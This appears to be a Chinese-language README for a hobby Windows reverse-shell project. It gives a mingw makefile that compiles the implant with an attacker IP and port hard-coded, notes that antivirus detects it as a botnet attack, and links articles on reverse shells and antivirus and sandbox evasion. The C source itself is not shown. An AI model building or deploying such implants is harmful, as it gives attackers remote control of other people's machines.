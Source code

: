 ## 编译

```shell
$ sudo apt install mingw-w64-i686-dev mingw-w64
```

**makefile**

```makefile
CC=i686-w64-mingw32-g++
BUILD_DIR=build
CFLAGS=-o $(BUILD_DIR)/scrs.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

ATT_HOST=172.27.25.82
IP_Addr= -DIP=\"$(ATT_HOST)\"
ATT_PORT=8080
PORT= -DPORT=$(ATT_PORT)
ATT_LOC= $(IP_Addr) $(PORT)

$(shell mkdir -p $(BUILD_DIR))
.PHONY: build clean
build: scrs.c
	$(CC) scrs.c $(CFLAGS) $(ATT_LOC)

clean:
	rm -rf $(BUILD_DIR)
```

## 运行

运行会被火绒发现hhh。提示"收到僵尸网络xxx的攻击，已阻止"。

编写了一个`receiver.py`，不然没法正确解码GB2312，有乱码

## 参考

1. [Malware on Steroids – Part 1: Simple CMD Reverse Shell](https://niiconsulting.com/checkmate/2018/11/malware-on-steroids-part-1-simple-cmd-reverse-shell/)
2. [Malware on Steroids – Part 2: Evading Antivirus in a Simulated Organizational Environment](https://niiconsulting.com/checkmate/2018/11/malware-on-steroids-part-2-evading-antivirus-in-a-simulated-organizational-environment/)
3. [Malware on Steroids Part 3: Machine Learning & Sandbox Evasion](https://niiconsulting.com/checkmate/2018/12/malware-on-steroids-part-3-machine-learning-sandbox-evasion/) 提到了许多避免检测的方法 [link(这个链接图片健在)](https://0xdarkvortex.dev/index.php/2018/10/27/malware-on-steroids-part-3-machine-learning-sandbox-evasion/)